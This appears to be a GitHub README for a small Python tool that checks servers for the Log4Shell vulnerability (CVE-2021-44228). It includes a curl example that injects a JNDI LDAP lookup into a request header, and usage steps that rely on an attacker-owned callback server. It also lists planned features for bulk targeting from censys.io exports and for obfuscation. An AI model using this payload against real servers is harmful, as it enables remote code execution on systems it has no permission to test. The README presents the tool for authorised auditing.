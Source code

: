 
# Little Log4Shellper

Simple tool I wrote on a pleasant Sunday afternoon.  

This tool leverages a log4j vulnerability, [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). The exploit involves injecting a malicious payload into a GET request header.  

While the original intent was to quickly audit multiple servers, the --payload option could be used to extend that functionality.   

E.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/a}
```
### Usage
![Imgur](https://i.imgur.com/PlMudwa.png)


### Example
Spin up a test target. In this example I use a vulnerable docker image provided by [@breadchris](https://github.com/breadchris)
![Imgur](https://i.imgur.com/Syt6SvE.png)

Spin up or use an attacker owned host.  
In this example I use a free log4shell server hosted by Huntress.
This is but one approach.

![Imgur](https://i.imgur.com/1g9wevT.png)


Run logshellper.py
![Imgur](https://i.imgur.com/WCEPj4U.png)


Check results. If the target show up on the attacker's server, the target is exploitable.
![Imgur](https://i.imgur.com/jZYjjmV.png)

### TODO
parse .csv file (i.e. exported form censys.io) to build targets.
add obfu option.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

### References
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java   
https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://github.com/drahosj/log4shell-vulnerable-app

